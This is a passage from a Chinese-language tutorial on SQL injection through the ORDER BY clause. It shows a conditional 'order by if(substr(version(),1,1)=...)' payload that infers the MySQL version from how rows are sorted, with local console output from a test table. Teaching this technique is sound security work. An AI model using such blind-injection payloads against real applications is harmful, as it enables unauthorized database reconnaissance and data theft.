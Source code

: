 可以看到这种方法，必须要知道列名，利用还是有条件的。

```sql
mysql&gt; select * from users order by if((substr(version(),1,1)=&#39;8&#39;),id,age);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
|  4 | aduser | 123456   |   10 | beijing   |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (0.01 sec)

mysql&gt; select * from users order by if((substr(version(),1,1)=&#39;6&#39;),id,age);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  4 | aduser | 123456   |   10 | beijing   |
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (0.01 sec)
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165647631.png)

网上有些文章直接用数字代替列名，如`if(1=1,1,4)`，但是本地测试时两个版本都没有成功。如下：
